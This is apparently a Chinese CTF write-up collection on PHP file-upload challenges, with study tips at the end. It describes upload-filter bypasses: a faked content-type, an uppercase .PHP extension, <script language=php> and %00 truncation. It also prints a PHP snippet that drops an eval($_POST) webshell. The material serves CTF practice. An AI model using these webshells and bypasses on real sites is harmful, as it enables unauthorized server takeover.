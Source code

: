 ##历年CTF上传类题

###2014SSCTF-UPLOAD-200pt
* Burp抓包，传正常图片，提示｛不会吧，上传图片不好吧！至少你也传个能解析的啊！｝ 但上传php文件无论怎么改、截断都是提示文件类型错误，所以猜测其对content-type进行了验证，看其是否为图片。 此时上传图片改为xx.php提示上传文件出错，然后利用文件名为大写PHP绕过。

###2014SCTF-pt400
* 管理员的 md5 搜一下得到：rootadministrator123，登陆后跳到 upload.php。
这里的上传的图片有一个过滤，当图片包含<?的时候，对，你没有看错，有<?的时候，张全蛋（英文名Michael Jack，法文名Hélodie Jaqueline）就会出现。不过很容易的，PHP 也可以通过<script language=php>phpinfo();</script>来执行。直接上传一句话，%00 截断之后得到地址，菜刀连接就好，轻车熟路。

<h3>400pt</h3>

<p>web400a就是抓包会看到一个文件上传的表单,上传文件后会给出上传后的路径和文件名,发现文件名与当前时间相关。 如/upload/upload/20140920170801.php。但是访问的时候会发现被删了。因此需要不断发生请求在被删之前访问到上传上去的脚本。脚本内容为在上一 级目录生成一句话。</p>

<pre><code>&lt;?php file_put_contents('../salt.php', '&lt;?php eval($_POST["c"]); ?&gt;'); ?&gt;
</code></pre>

<p>然后在上级目录找到上传后的一句话,就可以菜刀连接了。 菜刀连上去之后发觉/home/wwwroot/default/upload目录下面有一个dfghjdjlkfghd.zip。但是有密码,所以一时之间束手无测。随后根据提示,要去 Github上进行查找。然后再根据之前curl连接的时候发觉返回结果有一个注释,大概是这个样子:</p>

<pre><code>&lt;!--
    @author: nidongde
--&gt;
</code></pre>

<p>自然地,就去找nidongde的github主页,随后发现https://github.com/nidongde/test页面有解压缩密码: test_nidongde,解压之后得到一个php文件。提供了它的网址,以及一段内容,通过认证之后服务器会返回flag。条件:</p>

<pre><code>if($key == '_POST' &amp;&amp; ~$value['alibaba']['security'] == -2347230984235 &amp;&amp; strlen($value['alibaba']['security']) &gt;= 0){
</code></pre>

<p>由于对GET、GLOBAL等做了过滤,所以就用POST方式传数据。一开始卡住了,因为发现弄不出足够大的整数取反之后符合要求,但是再根据提示要用 x64的思维。x64下面自然int类型是很大的。最后的payload如下:</p>

<pre><code>curl -d '_POST[alibaba][security]=2347230984234' -i 'http://web400b.alictf.com/alibaba_CTF_security/'
</code></pre>

<p>即可得到flag。</p>


<br>
<br>
##做题心态
* 冷静别急，分析确定思路
* 有点耐心，尝试所有可能（简单的情况绝对不能忽略，策略应该是从 简单—>复杂 尝试）
  + 最近常见，文件名大小写绕过
  + content-type:multipart/formdata 大小写，已经遇到过很多回了
* 善于使用搜索引擎 百度 —> 必应 —> Google
